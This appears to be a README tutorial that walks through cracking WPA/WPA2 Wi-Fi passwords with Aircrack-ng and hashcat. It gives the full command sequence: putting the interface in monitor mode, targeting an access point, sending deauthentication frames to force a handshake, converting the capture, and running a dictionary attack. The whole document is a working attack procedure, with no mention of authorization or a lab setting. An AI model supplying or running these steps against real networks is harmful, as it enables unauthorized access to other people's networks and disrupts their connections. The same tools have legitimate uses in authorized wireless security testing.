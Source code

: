 ## Crack WIFI Password (WPA/WPA2) using Aircrack-ng

Prerequirments :

- Aircrack-ng : `sudo apt install aircrack-ng`

### Lets capture the flag (I mean \*Handshake):

Open terminal.....

#### Terminal-1:

1. Detect your wireless network interface :

   > ifconfig

   ![Network interface](images/interfaces.png)

   **Note:** Here <i>wlp3s0</i> is my wireless interface.

   **if coudn't find command then try :**

   > /sbin/ifconfig

2. Start monitor mode :

   > sudo airmon-ng start wlp3s0

   ![Monitor mode](images/monitor_mode.png)

3. capture traffic :

   > sudo airodump-ng wlp3s0mon

   ![Monitoring](images/monitoring.png)

#### Terminal-2:

4. select target and focus on one AP on channel:

   > sudo airodump-ng --bssid xx.xx.xx.xx.xx.xx -c y --write filename wlp3s0mon

   - **xx.xx.xx.xx.xx.xx** defines : **AP BSSID** -> 00.11.22.33.44.55 (suppose)
   - **y** defines : **AP channel** -> 10 (suppose)
   - **filename** is the file name where the **handshake** will captute and make some other stuffs .

   ![Target Monitoring](images/target.png)

#### Terminal-3:

5. Send traffic to the channel :

   > sudo aireplay-ng --deauth y -a xx.xx.xx.xx.xx.xx wlp3s0mon

   - ammoun of **traffic**-> y

   ![Deauth](images/deauth.png)

6. Capture handshake : it will be shown in the monitor if captured ! at **Terminal-2**.

7. Now you got the handshake **(terminal-2)**
8. Stop the process of terminal-2 : `ctrl+c`

### Now Lets crack the password !

**There will be a WPAcrack-01.cap file in your home directory**

1. convert cap file into hccapx file : https://www.onlinehashcrack.com/tools-cap-to-hccapx-converter.php

or

1.  use **cap2hccapx.c** file to convert the **cap** file to **hccapx** file

    > gcc cap2hccapx.c -o cap2hccapx && ./cap2hccapx file.cap file.hccapx

    ![cap to hcappx](images/capToHccapx.png)

2.  Crack password using **hashcat** :

    - **Install hashcat :** `sudo apt install hashcat`
    - check is everything oky ? : `hashcat -I` **to use hashcat you need gpu**
    - crack password :

      > hashcat -m 2500 wpacrack.hccapx dictionary.txt

      - dictionary.txt -> word list (suppose)
      - wpacrack.hccapx is the handshake file

      ![Hashcat running](images/hashcat.png)

      ![Hashcat Status](images/hashcat_status.png)

Then you will get the password.

![password](images/pass.png)

